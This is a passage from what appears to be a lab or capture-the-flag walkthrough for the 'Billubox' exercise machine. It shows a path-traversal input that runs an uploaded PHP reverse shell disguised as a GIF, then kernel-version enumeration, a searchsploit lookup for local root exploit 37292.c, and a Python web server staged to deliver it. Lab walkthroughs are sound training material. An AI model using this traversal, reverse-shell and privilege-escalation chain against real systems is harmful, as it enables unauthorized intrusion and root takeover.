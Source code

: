     [file:///root/Billubox-Exercise/panel-form.html](file:///root/Billubox-Exercise/panel-form.html)

    Here are its contents:

    ```
    <HTML><BODY>
    <form action="http://billubox/panel.php" method=post>
    <input type=text name=load>
    <input type=submit name=continue value="continue">
    </form>
    ```

29. Put this into the text field and click continue:

    ```
    ../../../../../../../var/www/uploaded_images/php-reverse.gif
    ```

30. Now, go back to your terminal window, where you should have a Billubox shell waiting for you.

    At the very top of your shell output, you have a kernel version.  It's a very old version, 3.13.0:

    ```
    Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
    ```

31. Type `id` to see what user you have:

    ```shell
    id
    ```

    It looks like we've got user `www-data`.  Let's find a path to `root`.

32. Start up a new terminal window or tab and search exploitdb for this, using the local cache of exploitdb on our Kali boxes:

    ```shell
    searchsploit 3.13.0
    ```

    This tell us that we have an available exploit at:

    ```
    /usr/share/exploitdb/exploits/linux/local/37292.c
    ```

33. Switch to the `Billubox-Exercise` directory and copy the exploit file `37292.c` there:

    ```shell
    cd /root/Billubox-Exercise/
    cp /usr/share/exploitdb/exploits/linux/local/37292.c . 
    ```

34. Now stage a web server hosting the `37292.c` exploit source code:

    ```shell
    python3 -m http.server 80
    ```
